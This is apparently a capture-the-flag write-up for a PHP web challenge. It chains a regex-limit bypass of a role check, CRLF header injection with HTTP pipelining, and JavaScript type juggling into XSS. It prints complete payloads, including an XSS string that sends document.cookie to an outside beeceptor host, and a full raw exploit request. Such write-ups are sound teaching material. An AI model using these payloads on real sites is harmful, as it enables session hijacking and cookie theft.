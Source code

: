 # Damn, I Love PHP!

1. Register and login
2. Change the user role to "admin" by supplying string "admin" 10000 times

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_SESSION['user'])) {
    $newRole = $_POST['role'] ?? '';
    if (preg_match('/(admin)+/s', $newRole) ||
        preg_match('/[^\x20-\x7E]/', $newRole) ||
        !preg_match('/^[a-z0-9]+$/', $newRole)
    ) {
        echo "Invalid role: cannot contain 'admin'";
        exit;
    }
    ...
```

In this case, this code uses regex groups, if there are too many matches with the regex pattern, PHP will ignore the user input because there is a limit to how many strings can be captured

2. There is a CRLF injection in the HTTP request header in the action called `request`

```php
$headers = [];
$headerMap = [
    'User-Agent'        => 'HTTP_USER_AGENT',
    'Cookie'            => 'HTTP_COOKIE',
    'Accept'            => 'HTTP_ACCEPT',
    'Accept-Language'   => 'HTTP_ACCEPT_LANGUAGE',
    'Referer'           => 'HTTP_REFERER',
];

foreach ($headerMap as $headerName => $serverKey) {
    if (!empty($_SERVER[$serverKey])) {
        $headerValue = urldecode($_SERVER[$serverKey]);
        $headers[] = "$headerName: $headerValue";
    }
}
```

This can be done by using any of the 5 headers like this

```
User-Agent: %0d%0aTest:%201
```

And since we are using NGINX as a web server, we can do HTTP pipelining which means we can hit other endpoints like /report/ and do XSS

3. In the internal service there is an XSS vulnerability but you have to do type juggling first

```php
    $digit = $_GET['digit'];
    if ((int) $digit) {
        ...
    }
```

And chain it with XSS using this payload:

```
https://example.com/#<img/src="x"/onerror=fetch('https://waefawe.free.beeceptor.com/?c='+document.cookie)>

document.body.innerHTML=location.hash
document.body.innerHTML=document.body.innerText
```

However, because many characters are blocked (like ; and ()), the final result is like this

```
http://app:8080/?digit=3 instanceof [document['body']['innerHTML']=location['hash']][document['body']['innerHTML']=document['body']['innerText']]#<img/src="x"/onerror=fetch('https://waefawe.free.beeceptor.com/?c='+document.cookie)>
```

And the final payload will look like this

```
POST /?action=request HTTP/1.1
Host: 127.0.0.1:50001
Debug: 1
Referer: %0d%0a%0d%0aPOST%20/report/%20HTTP/1.1%0d%0aHost:%20internal-svc%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%20260%0d%0a%0d%0aurl=http://app:8080/?digit=3%20instanceof%20[document['body']['innerHTML']=location['hash']][document['body']['innerHTML']=document['body']['innerText']]%23%2526lt;img/src=%2526quot;x%2526quot;/onerror=fetch('https://waefawe.free.beeceptor.com/?c='%252bdocument.cookie)%2526gt;
Cookie: PHPSESSID=8180922c675e755a12348884f5b477a7
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

path=/
```

# Ref
- https://github.com/hunter0x8/XSS-Payloads-1/blob/master/Without-Parentheses.md